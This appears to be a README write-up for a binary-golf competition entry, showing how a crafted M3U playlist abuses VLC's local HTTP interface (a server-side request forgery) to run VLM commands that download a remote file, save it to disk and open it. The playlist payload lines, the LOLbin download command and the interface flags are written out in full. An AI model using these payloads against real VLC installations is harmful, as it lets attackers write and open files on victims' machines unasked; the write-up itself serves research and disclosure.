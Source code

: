 # BGGP5 - A M3U for VLC

aka SSRF'ing VLCs HTTP interface.

Should support Linux and MacOS, do need to leave click off the playlist and
reclick it on macos (something to do with the erros this causes).

## TL;DR

* .m3us as VLC supports them can just be a list of URLs, which VLC will send
  requests to fetch. You don't need "#EXTM3U", VLC doesn't care.
* When opened they will add their contents to the active playlist, with the
  filename being the name that shows up in the playlist.
* VLC has an incredibly insecure http interface, which allows you to just send
  GET requests (with the requirement of HTTP auth) to access its commands.
* The interface lets you use VLM commands, which lets you script VLC to create
  streams.
* It is possible to use run a few VLM commands to download a file via HTTPS to
  disk, and also open this file as well.
* So if you download `https://binary.golf/5/5`, save it as a m3u and open it
  and the contents will be displayed right in the playlist!

## Write up

### From just the command line

To start off, here is a LOLbin usage of VLC to download a file:
```
vlc https://binary.golf/5/5 :demux=dump :demuxdump-file=out.vlc out.vlc
```

(l33t 0d4y, not listed in GTFO bins!)

A few things to note:
* VLC supports accessing HTTP(S) URLs.
* You can use the dump demux [1], that will just write a file with no changes,
  avoiding all media parsing.
* out.vlc will be used as a playlist (.vlc is just an alias for .m3u) and will
  resolve the filename.

### HTTP Interface

#### Enabling

We have to run VLC with some extra flags to enable the http server:
```
vlc -I qt --extraintf http --http-password 5 --http-port 8080 payload.m3u8
```

* Setting the default interface to QT (or macosx on macos)
* Enable the HTTP server, set a password (a requirement) and the port.

We need to set the port as I hit different port numbers on macos and linux.

#### What can we do

Looking at [2], we can see two interesting endpoints:
* `status.xml`
* `vlm_cmd.xml`

With `status.xml`, we can play directly play a file from disk, which will come
in handy.

`vlm_cmd.xml` gives us the ability to run VLM commands, which has a lot of
power.

Both are used by passing the query `?command=blah` where blah is the command you
want to run.
Entirely via GET requests!

### VLM to write to disk

VLM[3] gives you a set of commands to setup streams / otherwise control VLC.

After some experimenting, I found the following VLM commands to write a file
downloaded over HTTP to disk:

```
new c broadcast enabled input https://binary.golf/5/5 option demux=dump option demuxdump-file=.m3u
control c play
```

I did experiment with using stream outputs, but I realised I could just use
`demux=dump` here to write it out.

### Bringing everything together

So, we can then run our vlm commands by putting the following in the file:
```
http://:5@0:8080/requests/vlm_cmd.xml?command=new c broadcast enabled input https://binary.golf/5/5 option demux%3ddump option demuxdump-file%3d.m3u
http://:5@0:8080/requests/vlm_cmd.xml?command=control c playlist
```

`https://:5@0:8080/` does HTTP auth with the password 5, and 0 is an alias for
localhost we can use.
We get to pass our command easily, just needing to manually urlencode `=`.

Finally, we can open the BGGP5 file we saved to disk as a m3u, and it'll
display:
```
http://:5@0:8080/requests/status.xml?command=in_play&input=.m3u
```

## References

* [1] https://wiki.videolan.org/Demuxdump/
* [2] https://wiki.videolan.org/VLC_HTTP_requests/
* [3] https://github.com/videolan/vlc/blob/master/doc/vlm.txt
